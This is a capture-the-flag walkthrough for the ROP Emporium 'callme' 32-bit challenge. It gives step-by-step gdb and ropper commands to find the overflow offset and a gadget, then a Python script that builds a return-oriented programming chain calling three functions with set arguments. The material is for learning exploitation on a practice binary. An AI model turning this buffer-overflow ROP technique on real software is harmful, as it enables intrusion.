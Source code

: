 ## callme:
[Challenge]: https://ropemporium.com/challenge/callme.html
[Video Walkthrough]: https://www.youtube.com/watch?v=abEOdicWhNo&ab_channel=CryptoCat
[PLT Explanation]: https://www.youtube.com/watch?v=kUk5pw4w0h4

>   1. $ sudo apt install radare2
>      $ sudo pip install ropper
>   2. $ rabin2 -i callme32
```
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x080484c0 GLOBAL FUNC       read
2   0x080484d0 GLOBAL FUNC       printf
3   0x080484e0 GLOBAL FUNC       callme_three
4   0x080484f0 GLOBAL FUNC       callme_one
5   0x08048500 GLOBAL FUNC       puts
6   0x00000000 WEAK   NOTYPE     __gmon_start__
7   0x08048510 GLOBAL FUNC       exit
8   0x08048520 GLOBAL FUNC       __libc_start_main
9   0x08048530 GLOBAL FUNC       setvbuf
10  0x08048540 GLOBAL FUNC       memset
11  0x08048550 GLOBAL FUNC       callme_two
```
>    3. Observe pwnme, usefulFunction, and the callme functions
>        $ objdump -d callme32
>           OR
>        Use a reversing framework like Ghidra
>    4. $ gdb callme32
>    5. (gdb) run
>    6. Enter this when prompted and press Enter:
>       aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
>    7. Observe that the EIP register says `0x6161616c`. This is `laaa` in ASCII (remember this is Little Endian architecture so the bytes are backwards)
>    8. Calculate the offset (it's 44)
>    9. (gdb) disassebmle usefulFunction
>    10. Take the addresses of the different callme functions
>    11. Read the ropemporium challenge website above to know the arugments for these functions:
>        For 32 bit it's
```
0xdeadbeef, 0xcafebabe, 0xd00df00d
```
>   12. On a separte terimanl find gadgets to pop 3 off the stack:
>       $ ropper -f callme32 --serach "pop"
>          OR
>       Search manually with `objdump -d callme32`
```
0x080487f9: pop esi; pop edi; pop ebp; ret;
```
>   13. Write this python file:
```
offset = "A" * 44
deadbeef = "\xef\xbe\xad\xde" # "0xdeadbeef"
cafebabe = "\xbe\xba\xfe\xca" # "0xcafebabe"
d00df00d = "\x0d\xf0\x0d\xd0" # "0xd00df00d"
arguments = deadbeef + cafebabe + d00df00d

gadget = "\xf9\x87\x04\x08" # 0x080487f9

callone =   "\xf0\x84\x04\x08" # 0x80484f0
calltwo =   "\x50\x85\x04\x08" # 0x8048550
callthree = "\xe0\x84\x04\x08" # 0x80484e0


print(offset + callone + gadget + arguments + calltwo +  gadget + arguments + callthree + gadget + arguments)
```
>   14. $ python exploit.py > output
>   15. $ ./callme32 < output
